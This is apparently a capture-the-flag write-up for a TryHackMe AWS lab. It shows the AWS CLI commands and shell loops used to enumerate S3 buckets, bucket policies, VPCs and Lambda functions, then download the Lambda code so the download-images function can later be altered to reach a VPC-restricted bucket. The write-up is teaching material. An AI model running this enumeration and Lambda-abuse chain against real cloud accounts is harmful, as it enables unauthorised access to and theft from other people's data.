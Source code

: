 # Lambda - Data Exfiltration

## Mission brief
The Uruks of Mordor have hired you to get access to a CryptoWallet in the AWS Account belonging to a rival gang of Uruk-hai. The gang has obtained some AWS read-only AWS credentials to the target account through means you don't want to ask about. Unfortunately, the CryptoWallet is in an S3 Bucket protected by a VPC Endpoint policy. You cannot access it from anywhere except the VPC.
For this challenge, the read-only credentials are the same ones provided by the TryHackMe environment, so continue to use them. You will want to leverage your AttackBox for this exercise. 

## Reconnaissance of the Buckets in the Environment
- Run the following commands for 

```bash
aws s3 ls
aws s3 ls s3://$BUCKET_NAME
```
![image](https://github.com/user-attachments/assets/ddd7e771-ad06-48af-a856-848a696de384)

- As seen from the screenshot, only the first bucket `mauhur-coins-637423357278` has some items in it. Copy the items to the local machine

```bash
aws s3 cp s3://mauhur-coins-637423357278/password.txt .
```

![image](https://github.com/user-attachments/assets/70401c1d-4b32-434e-8e84-a596000ec7f0)

- We get a permission error, indicating the user only has read permission on the S3 bucket. In fact, we can confirm this by running

```bash

aws s3api get-bucket-policy --bucket mauhur-coins-637423357278 --query Policy --ouput text | jq .
```

![image](https://github.com/user-attachments/assets/cea07b8e-d93c-4033-a7eb-4236a2d18aaf)

- Also, from the above screenshot, we see that there's only a VPC that has access to the s3 bucket `vpce-030a142134efd2262`
- This VPC will be our target. Run the followinnng commands for enumeration

```bash
aws ec2 describe-vpc-endpoints
```

![image](https://github.com/user-attachments/assets/50f4a6c3-a292-4699-ba10-0e66632d5b0b)

```bash
aws ec2 describe-vpcs
```

![image](https://github.com/user-attachments/assets/6920b218-6251-4d89-995a-3c58ff7491af)

- There is a piece of information that stands out. We see Mahur's VPC in the above screenshot, with a warning "DO NOT USE". So if we get access to this VPC, we can get a hold of the S3 bucket.

**What is the NotAction value in the policy for the coins bucket?**

`-> s3:PutObject`

**What is the Name of the VPC we need to target?**

`-> Mauhur's VPC - Do not Use`

- In this scenario, the vitim only has some Lambda function to run. We can inpsect these functions to see what they contain.

## Enumerate Lambda functions
Run the following command to get the list of Lambda functions

```bash
aws lambda list-functions >> lambda-functions.json
```

Use the following script to enumerate the attached policies

```bash
FUNCTIONS="list-images download-images"

for f in $FUNCTIONS ; do
    ROLE=`aws lambda get-function --function-name $f --query Configuration.Role --output text | awk -F\/ '{print $NF}'`
    echo "$f has $ROLE with these managed policies:"
    aws iam list-attached-role-policies --role-name $ROLE
    for p in `aws iam list-role-policies  --role-name $ROLE --query PolicyNames --output text` ; do
        echo "$ROLE for $f has inline policy $p:"
        aws iam get-role-policy --role-name $ROLE --policy-name $p
    done
done
```

As a reuslts, we see some Lambda functions handling images: One list content of the bucket and one downloads the content. 
Amongst these two functions, only the one that downloads images has our targeted VPC configured -> Download images function will be the main target

**Which Lambda function has the AWSLambda_FullAccess managed policy attached to it?**

`-> list-images`

**Which Lambda function has the IAM permissions to access any S3 Object in any S3 Bucket in this account?**

`-> download-images`

## Analyze Lambda functions
Let's go over what we've done so far. We need to target `download-images` lambda function which is configured in a targeted VPC that has full permission over the interested S3 bucket.
Since we have `FullLambdaAccess` permission on the 'list-images` function, we can leverage that to change the code in `donwload-images` function.
We can analyze both functions by downloading them:

```bash
# Retrieve the Lambda function URL
aws lambda get-function --function-name list-images --query Code.Location --output text

# Download the function and save it to a zip file
curl -s $URL -o list-images.zip

# Make a new directory for the function an unzip the file
mkdir list-images
unzip list-images.zip -d list-images
```

We can leverage the following script to do the same thing:

```bash
FUNCTIONS="list-images download-images"
for f in $FUNCTIONS ; do
    URL=`aws lambda get-function --function-name $f --query Code.Location --output text`
    curl -s $URL -o $f.zip
    mkdir $f
    unzip $f.zip -d $f
done
```



